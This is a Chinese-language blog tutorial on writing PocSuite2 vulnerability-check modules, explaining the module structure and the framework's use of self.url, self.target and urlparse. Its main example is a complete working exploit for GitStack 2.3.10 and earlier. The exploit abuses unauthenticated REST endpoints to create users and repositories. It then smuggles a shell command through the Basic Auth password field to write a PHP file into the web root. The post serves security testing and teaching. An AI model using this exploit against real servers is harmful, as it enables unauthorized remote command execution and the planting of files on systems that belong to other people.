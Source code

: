 ```yaml
---
layout: post
title:  "PocSuite编写及使用笔记"
date:   2019-7-19 16:18:43
categories: Development
author: co0ontty
categories: 安全开发 ALL
tags: 安全开发 ALL
describe: PocSuite编写及使用笔记
cover: '/assets/img/posts/pocsuitecover.png'
---
```

## 关于PocSuite
[PocSuite](http://pocsuite.org)是由知道创宇404实验室编写的一款基于python的开源漏洞利用框架。PocSuite包含漏洞检测和利用两种模式，可以针对特定漏洞对多个目标进行探测并返回漏洞检测及利用的结果。
![使用过程图](/assets/img/posts/pocsuite1.png)
## PocSuite2
关于PocSuite2的编写方法及使用过程中的注意事项
### PocSuite2编写格式
PocSuite检测模块的构成主要由以下几部分构成：
·python库的引用模块
·关于poc的介绍信息模块
·漏洞检测代码模块
·漏洞利用代码模块
·返回结果模块
### python库引用模块
```python
from pocsuite.api.poc import register
from pocsuite.api.poc import Output, POCBase
import requests
import random
import os
import sys
import hashlib
import string
from requests.auth import HTTPBasicAuth
```
在该模块声明漏洞检测及利用过程中需要使用到的python库，其中`from pocsuite.api.poc import Output, POCBase 和 from pocsuite.api.poc import register`是必须要引用的库

### 关于poc的介绍信息模块
```python
    vulID = 'N/A' #根据seebug提供的漏洞编号进行编写，没有的话可以写N/A
    version = '1.0' #该poc的版本
    author = 'co0ontty' #编写作者
    vulDate = '2019-7-11' #漏洞时间
    createDate = '2019-7-16' #创建poc的时间
    updateDate = '2019-7-16' #更新时间
    references = ['https://xz.aliyun.com/t/2235'] #关于该漏洞的参考信息网站
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析' #漏洞名称
    appPowerLink = 'https://gitstack.com' #存在漏洞的服务的官网
    appName = 'GitStack' #存在漏洞的服务的名称
    appVersion = 'GitStack <= 2.3.10' #存在漏洞的服务的版本
    vulType = '文件上传' #该漏洞的类型（参考seebug官网的漏洞类型分类）
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    ''' # 漏洞的介绍信息
    samples = []
    install_requires = []
```
### 漏洞检测代码模块
```python
def _verify(self):
        result = {}
        target = self.url
        #your verify code
        if 判断条件:
            result['VerifyInfo'] = {} # 标识为成功
            result['VerifyInfo']['URL'] = self.url #返回到结果中的url
            pass
        return self.parse_output(result) # 返回结果
```
系统会根据用户编写的检测代码对漏洞进行检测，设置判断条件后，如果判断条件为真，则使用`result['VerifyInfo'] = {}`返回判断结果为真，并且使用`result['VerifyInfo']['URL'] = self.url`返回向返回结果中输出特定的值。最后程序在运行`return self.parse_output(result)`结果输出代码的时候，如果存在`result['VerifyInfo'] = {}`则返回success，如果不存在则判断为faild
### 漏洞利用代码模块

```python
def _attack(self):
    # attack code 
```
一般情况下会设置检测代码与漏洞利用代码相同：
```python
_attack = _verify
```
### 返回结果模块

```python
def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output
```
将漏洞检测模块或者漏洞利用模块的结果输出到屏幕中显示

### 完整代码分享
GitStack任意文件上传漏洞
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# from pocsuite.api.request import req
from pocsuite.api.poc import register
from pocsuite.api.poc import Output, POCBase
import requests
import random
import os
import sys
import hashlib
import string
from requests.auth import HTTPBasicAuth


class TestPOC(POCBase):
    vulID = 'N/A'
    version = 'GitStack <= 2.3.10'
    author = 'co0ontty'
    vulDate = '2019-7-11'
    createDate = '2019-7-16'
    updateDate = '2018-3-31'
    references = ['https://xz.aliyun.com/t/2235']
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析'
    appPowerLink = 'https://gitstack.com'
    appName = 'GitStack'
    appVersion = 'GitStack <= 2.3.10'
    vulType = '文件上传'
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    '''
    samples = []
    install_requires = []

    def _verify(self):
        result = {}
        target = self.url
        repository = 'rce'
        username = 'rce'
        password = 'rce'
        csrf_token = 'token'
        user_list = []
        r = requests.get("{}/rest/user/".format(target))
        try:
            user_list = r.json()
            user_list.remove('everyone')
        except:
            pass
        if len(user_list) > 0:
            username = user_list[0]
        else:
            r = requests.post("{}/rest/user/".format(target),data={'username' : username, 'password' : password})
        r = requests.get("{}/rest/repository/".format(target))
        repository_list = r.json()
        if len(repository_list) > 0:
            repository = repository_list[0]['name']
        r = requests.post("{}/rest/repository/".format(target), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
        r = requests.post("{}/rest/repository/{}/user/{}/".format(target, repository, username))
        r = requests.delete("{}/rest/repository/{}/user/{}/".format(target, repository, "everyone"))
        random_file_name = ''.join(random.sample(string.ascii_letters+string.digits,16))+".php"
        random_identify_code = ''.join(random.sample(string.ascii_letters+string.digits,35))
        r = requests.get('{}/web/index.php?p={}.git&a=summary'.format(target, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php echo"'+random_identify_code+'"; ?>" > c:'+random_file_name))
        test_url = target+"/web/"+random_file_name
        r = requests.get(test_url)
        if (r.status_code == 200)&(random_identify_code in r.text):
            result['VerifyInfo'] = {}
            result['VerifyInfo']['URL'] = self.url
            pass
        return self.parse_output(result)

    _attack = _verify

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)

```
## 库的使用
### requests 库
pocsuite中自带经过改装的req，`from pocsuite.api.request import req`，pocsuite 中的req可以使用随机的UA
### urlparse
使用如下命令时，py中调用目标的方式时通过 self.url 和 self.target 
```python
pocsuite -r portals_urllib.py -u 172.16.5.155:8080
```
self.url 与 self.target 的区别为：如果 -u 传递的参数没有指定 http 或者 https 的话，self.url 会自动添加 http:// 而 self.target 则不会做任何操作。
![使用过程图](/assets/img/posts/pocsuite-4.png)
不管怎样，self.url 和 self.target 均无法对端口进行识别和操作，所以我们要引入 urlparse 库：
### urlparse库
**urlparse.urlparse(分离）**
![urlparse.urlparse](/assets/img/posts/pocsuite-6.png)
**urlparse.urljoin（合并）**
![urlparse.urljoin](/assets/img/posts/pocsuite-5.png)